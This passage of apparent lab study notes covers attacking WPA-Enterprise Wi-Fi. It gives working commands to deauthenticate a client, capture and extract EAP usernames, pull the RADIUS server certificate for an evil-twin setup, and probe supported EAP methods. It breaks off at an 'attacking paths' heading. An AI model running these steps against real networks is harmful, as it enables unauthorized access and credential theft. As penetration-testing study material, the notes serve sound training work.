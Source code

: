 - Deauth the client to force reauth: `aireplay-ng -0 1 -a <AP_BSSID> -c <CLIENT_MAC> wlan0mon`.
    
- Watch `airodump-ng` to see EAPOL exchange; a full EAP handshake will be captured only if PMK cache is disabled or expired.
    

---

(3) **Extract username / domain from capture**

- Open `WPA-01.cap` in Wireshark and filter `eap` → look for **EAP Response Identity** frames showing `Domain\Username` or `username`.
    
- Command-line extraction (tshark):
    

```
tshark -r WPA-01.cap -Y '(eap && wlan.ra == <AP_BSSID>) && (eap.identity)' -T fields -e eap.identity
# Example output: HTB\Ketty
```

- Automated harvesting: `crEAP.py` listens and extracts EAP identities automatically (interactive tool).
    

---

(4) **Extract RADIUS/TLS server certificate**

- TLS handshake (server certificate) is sent in clear during outer TLS tunnel. Extract with Wireshark filter:
    

```
(wlan.sa == <AP_BSSID>) && (tls.handshake.certificate)
```

- Or use provided script: `bash /opt/pcapFilter.sh -f /path/WPA-01.cap -C` → extracts cert to `/tmp/certs/*.der`.
    
- The certificate reveals fields (CN, O, issuer) useful to mimic a RADIUS server or create convincing evil‑twin config.
    

---

(5) **Enumerate supported EAP methods for a user (server probing)**

- Use `EAP_buster` with a real identity to query which EAP methods the RADIUS server supports for that user:
    

```
/opt/EAP_buster/EAP_buster.sh <AP_ESSID> '<IDENTITY>' wlan0mon
# Output lists supported / not supported methods (EAP-TLS, PEAP-MSCHAPv2, TTLS-EAP-MSCHAPv2, etc.)
```

- This helps pick the best attack path (brute-force MSCHAPv2 vs. TLS-based phishing).
    

---

(6) **Attacking paths — overview & quick workflows**
